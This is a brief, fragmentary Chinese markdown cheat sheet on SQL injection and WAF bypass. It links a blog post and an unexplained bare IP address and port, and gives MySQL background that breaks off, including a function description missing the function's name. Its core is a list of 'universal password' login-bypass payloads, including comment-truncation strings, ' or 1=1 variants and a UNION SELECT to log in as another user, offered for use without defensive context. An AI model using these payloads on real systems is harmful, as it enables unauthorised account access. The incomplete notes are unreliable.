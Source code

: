 # sql注入和绕过

https://www.cnblogs.com/vincy99/p/9642882.html
http://58.221.238.152:83/


在开始真正的注入技巧之前,我们先来大致回顾下必要的 mysql 数据库基础


>下面是注入 Mysql 时经常会用到的一些单行函数,熟练使用是灵活注入的前提,尤其是在对抗一些 Waf 的时候

字符串连接函数,将多个字符串连接成一个字符串,注意,`中间只要字符串有一个为空,最后结果也为空`


## 手注！(手冲！！)


 ## 后台万能密码

- admin' --
- admin' #
- admin'/*
- ' or 1=1--
- ' or 1=1#
- ' or 1=1/*
- ') or '1'='1--
- ') or ('1'='1--
- 以不同的用户登陆 ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--






